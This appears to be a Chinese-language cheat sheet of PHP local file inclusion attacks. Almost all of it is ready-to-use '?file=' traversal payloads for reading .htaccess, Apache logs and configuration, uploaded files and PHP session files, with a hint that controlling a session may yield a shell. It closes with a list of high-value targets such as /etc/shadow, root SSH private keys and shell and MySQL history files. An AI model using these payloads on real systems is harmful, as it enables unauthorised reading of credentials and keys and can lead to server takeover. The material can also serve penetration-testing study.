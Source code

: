 #### 包含同目录下的文件

::: tip 攻击方式

?file=.htaccess

:::

#### 目录遍历

::: tip 攻击方式

?file=../../../../../../../../../var/lib/locate.db<br> ?file=../../../../../../../../../var/lib/mlocate/mlocate.db<br> (linux 中这两个文件储存着所有文件的路径, 需要 root 权限)

:::

#### 包含错误日志

::: tip 攻击方式

?file=../../../../../../../../../var/log/apache/error.log

:::

#### 获取 web 目录或者其他配置文件

::: tip 攻击方式

?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf

:::

#### 包含上传的附件

::: tip 攻击方式

?file=../attachment/media/xxx.file

:::

#### 读取 session 文件

::: tip 攻击方式

?file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7<br> (session 文件一般在 /tmp 目录下, 格式为 `sess\_[your phpsessid value]` , 有时候也有可能在/var/lib/php5 之类的, 在此之前建议先读取配置文件。在某些特定的情况下如果你能够控制 session 的值, 也许你能够获得一个 shell)

:::

#### 系统中重要文件(需要 root 权限)

- `/root/.ssh/authorized_keys`
- `/root/.ssh/id_rsa`
- `/root/.ssh/id_rsa.keystore`
- `/root/.ssh/id_rsa.pub`
- `/root/.ssh/known_hosts`
- `/etc/shadow`
- `/root/.bash_history`
- `/root/.mysql_history`
- `/proc/self/fd/fd[0-9]* (文件标识符)`
- `/proc/mounts`
- `/proc/config.gz`
